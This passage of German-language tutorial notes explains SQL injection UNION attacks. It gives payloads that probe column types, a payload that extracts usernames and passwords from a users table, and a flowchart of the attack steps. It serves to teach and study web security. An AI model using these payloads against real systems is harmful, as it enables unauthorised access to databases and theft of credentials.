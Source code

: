         ```
        ' UNION SELECT 'a',NULL,NULL,NULL--
        ' UNION SELECT NULL,'a',NULL,NULL--
        ' UNION SELECT NULL,NULL,'a',NULL--
        ' UNION SELECT NULL,NULL,NULL,'a'--
        ```

        Falls die Spalten keine Strings sind entsteht ein Error.

- **Verwenden des UNION Operators**

  ```SQL
  SELECT name, description FROM products WHERE category = 'Gifts' UNION SELECT username, password FROM users
  ```

  Das UNION-Schlüsselwort kombiniert die Ergebnisse beider Abfragen und gibt sie als eine einziges Ergebnis zurück.

- **Angriffs Bsp** :

  - Die ursprüngliche Abfrage gibt zwei Spalten zurück, die beide string Daten enthalten können.
  - Der injection point ist ein `string` in Anführungszeichen innerhalb der `WHERE` Klausel.
  - Die Datenbank enthält eine Tabelle namens `users` mit den Spalten `username` und `password`.

  In diesem Beispiel können Sie den Inhalt der Tabelle `users` abrufen, indem Sie die Eingabe übermitteln:

  ```sql
  ' UNION SELECT username, password FROM users--
  ```

  > Note: Es muss bekannt sein, dass es die Tabellen username & password gibt.
  > Sonst muss man raten.

## Angriffsschema

```mermaid
flowchart TD
    %% Variables
    entry[Einstiegs Punkt finden]
    spalten[Zurück gegebene Spaltenanzahl herausfinden]
    orderby[`ORDER BY 1--` 1,2...n]
    union_null[`UNION SELECT NULL--` NULL n mal]
    geignete_spalte[Spalte mit richtigen Datentyp für die Injection finden]
    gs_methode[' UNION SELECT 'a',NULL,NULL,NULL--]
    if{error}
    if2{error}
    str[[String]]
    no_str[[INT,BOOL,...]]
    query[Union attack bauen]
    max_col[Spalten anzahl gefunden]

    %%  Diagramm logic
    entry-->spalten
    spalten-->f1

    subgraph f1 [Möglichkeiten]
    orderby -->if
    union_null-->if
    if -- ja --> max_col
    if -- nein --> continue
    end

    f1-->geignete_spalte
    geignete_spalte -->gs_methode
    gs_methode --> f2

```